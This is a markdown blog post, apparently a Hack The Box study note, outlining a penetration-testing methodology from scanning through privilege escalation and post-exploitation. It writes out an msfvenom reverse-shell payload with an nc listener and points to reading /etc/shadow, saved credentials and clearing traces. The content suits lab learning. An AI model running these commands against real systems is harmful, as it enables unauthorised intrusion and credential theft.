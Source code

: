 ```yaml
---
title: "Methodologies"
date: 2025-06-28 14:42:00 +0500
categories: [Methodologies]
tags: [HTB]
---
```


## 1. Reconnaissance (Enumeration)

### Objective:

Identify open services, gather information about the target system, and uncover potential attack vectors.

### Tools & Techniques:

#### Basic Network Scanning

```bash
nmap -sC -sV -oN nmap/initial <target-ip>
```

* `-sC`: Run default scripts
* `-sV`: Version detection
* `-oN`: Output to file

#### Full Port Scan (for deeper service discovery)

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap/allports <target-ip>
```

* `-p-`: All 65535 ports
* `--min-rate`: Speed up the scan

#### Targeted Service Scanning

After identifying services:

* **HTTP**: `nikto`, `gobuster`, `feroxbuster`, `whatweb`, `wpscan`
* **SMB**: `enum4linux`, `smbclient`, `crackmapexec`
* **FTP**: Anonymous login, `nmap --script ftp*`
* **SSH**: Banner grabbing, user bruteforce with `hydra`, check for weak keys
* **DNS**: `dig`, `nslookup`, `dnsrecon`
* **SNMP**: `onesixtyone`, `snmpwalk`

#### Directory/File Enumeration

```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt,html
```

#### Web Tech Stack & Analysis

* `whatweb`, `wappalyzer`, `curl -I`
* Manually browse with **Burp Suite** or **ZAP Proxy**

#### /etc/hosts

Edit `/etc/hosts` file to create hosts entry and tinker with the web interface.

```bash
sudo vim /etc/hosts
10.10.10.150 <box_name>.htb
```

---

## 2. Foothold (Initial Access)

### Objective:

Exploit a vulnerability or misconfiguration to gain low-level access (usually a user shell).

### Techniques & Tools:

#### Web Exploitation

* **Check CMS**: Use `wpscan`, `joomscan`
* **Upload forms, RCE, LFI, SQLi**: Use `Burp Suite`, `sqlmap`
* **Authenticated functionality**: Use `ffuf`/`wfuzz` to fuzz
* **Exposed Git repos**: Download `.git` and extract

#### Exploits

* Search for public exploits:

  ```bash
  searchsploit <service/version>
  ```

  Or use `exploitdb`, `github`, `CVE` search

* Use `Metasploit` for known vulnerable services (optional if allowed)

#### Reverse Shell

Generate a reverse shell payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f elf > shell.elf
python3 -m http.server 80   # to host payload
```

Catch it with:

```bash
nc -lvnp 4444
```

---

## 3. Privilege Escalation (Root)

### Objective:

Elevate privileges from a foothold user to `root` or `NT AUTHORITY\SYSTEM`.

### Tools & Techniques:

#### Manual Enumeration

Run the following script from your foothold:

```bash
linpeas.sh, linenum.sh, lse.sh (for Linux)
winPEASx64.exe, PowerUp.ps1 (for Windows)
```

Or manually check:

* **SUID binaries**: `find / -perm -4000 2>/dev/null`
* **Cron jobs**: `cat /etc/crontab`, `/etc/cron.*`
* **Scheduled tasks (Windows)**: `schtasks /query /fo LIST /v`
* **Misconfigured services**: `systemctl list-units --type=service`
* **Environment variables**: `env`, `PATH` issues

#### Kernel Exploits

Check kernel version:

```bash
uname -a
```

Search for privilege escalation:

```bash
searchsploit linux kernel <version>
```

#### Password Reuse & Creds

* Check `/etc/passwd`, `/etc/shadow`, saved credentials in `.bash_history`, scripts, config files
* Try `sudo -l`

#### Exploiting Sudo Rights

```bash
sudo -l
```

Use [GTFOBins](https://gtfobins.github.io/) or [LOLBAS](https://lolbas-project.github.io/) for binaries you can exploit with sudo privileges.

---

## 4. Post Exploitation

* Dump credentials
* Lateral movement if applicable (less common on HTB standalone)
* Cleanup traces if needed

---

## Tool Summary Table

| Phase             | Tools                                                                               |
| ----------------- | ----------------------------------------------------------------------------------- |
| Recon             | `nmap`, `gobuster`, `feroxbuster`, `whatweb`, `enum4linux`, `smbclient`, `snmpwalk` |
| Foothold          | `searchsploit`, `msfvenom`, `sqlmap`, `Burp`, `wpscan`                              |
| Priv. Escalation  | `linpeas`, `winPEAS`, `pspy`, `sudo -l`, `GTFOBins`                                 |
| Post Exploitation | `hashdump`, `netstat`, `ss`, `history`, `creds`                                     |

## Resources
For active directory/window boxes:
[SVG](https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg)

For encrypted/encoded passwords:
[CyberChef](https://gchq.github.io/CyberChef/)


---

